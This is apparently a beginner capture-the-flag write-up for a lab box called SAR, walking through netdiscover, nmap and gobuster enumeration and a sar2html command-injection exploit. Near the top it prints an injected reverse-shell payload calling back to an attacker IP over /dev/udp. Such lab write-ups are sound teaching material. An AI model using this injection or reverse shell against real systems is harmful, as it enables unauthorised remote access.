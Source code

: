 https://www.exploit-db.com/exploits/47204
;bash -c 'bash -i >& /dev/udp/192.168.66.191/4242 0>&1'
# SAR

## Introduction

This box is designed to help beginner pentester to get familiar with some pentesting concepts like shell reversing and privilege escalation.

## Information

### Access

### Key Processes

[Describe processes that are running to provide basic services on the box, such as webserver, ftp, etc. For any custom binaries, include source code (in a separate file unless very short). Also include if any of the services or programs are installed intentionally vulnerable versions.].

This machine hosts an apache web server, and uses the sar2html tool.

## Writeup

After running the machine, the first thing we encounter is the ubuntu authentificator, and find that there is a user called love. 
<img src="assets/auth.png"><br>
But before starting the enumeration phase, we need to get the ip adress of the machine, and to do so we need to run the command netdiscover 
```
sudo netdiscover
```
<img src="assets/netdiscover.png"><br>
Now that we have the ip adress, we can run nmap 

## Enumeration

### Nmap
```
sudo nmap -A -O -Pn -p- -T4 -sV 192.168.66.153
```
<img src="assets/nmap.png"><br>

We can see that there is one port open (port:80:http), but after checking out its content on the browser it seems to be the apache default page.

<img src="assets/home_apache.png"><br>

### Directory bruteforcing

To check if there are other directories, I used gobuster to bruteforce any existing files or directories in the current directory.
```
gobuster -w ./wordslist2.txt -u 192.168.66.153
```
<img src="assets/gobuster.png"><br>
And we found that there is a robots txt file that pointed us to the right direction.
<img src="assets/robots.png"><br>

### Understanding the vulnerability
Sar2html is a tool that comes with most linux machines, and was found to be vulnerable in version 3.2.1: https://www.exploit-db.com/exploits/47204 . The attacker can manipulate the plot variable to inject command line code into the machine.
<img src="assets/page.png">

### Reverse shell
In order to work freely, I sent an http request with a reverse shell command: 
<img src="assets/postman.png"><br>
And used netcat to intercept the communication on my host machine
<img src="assets/nc.png"><br>
